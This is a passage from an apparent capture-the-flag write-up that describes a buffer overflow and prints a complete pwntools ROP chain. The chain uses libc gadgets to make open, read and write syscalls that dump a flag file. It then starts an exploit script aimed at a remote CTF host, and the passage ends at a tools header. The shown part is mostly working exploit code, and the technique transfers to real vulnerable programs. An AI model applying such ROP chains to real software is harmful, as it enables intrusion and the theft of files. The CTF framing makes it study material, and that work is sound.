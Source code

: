 
- Perform a Buffer Overflow and execute a ROP chain to open, read, and write.

```python
p = b""
p += p64(libc.search(asm("pop rdi; ret;")).__next__() + 1) * 8 # ret sled
p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(CHUNK[3]) # FLAG_LOCATION
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(0)
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(2)
p += p64(libc.address + 0x8bee6) # syscall ; ret

p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(open_fd)
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(CHUNK[3])
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0x200)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(0)
p += p64(libc.address + 0x8bee6) # syscall ; ret

p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(1)
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(CHUNK[3])
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0x200)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(1)
p += p64(libc.address + 0x8bee6) # syscall ; ret

io.sendline(p)
```

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
from ctypes import CDLL
from libnum import n2s, rev_grey_code, s2n

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/main"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 49999
REMOTE, LOCAL = False, False

# ==========================[ Tools
```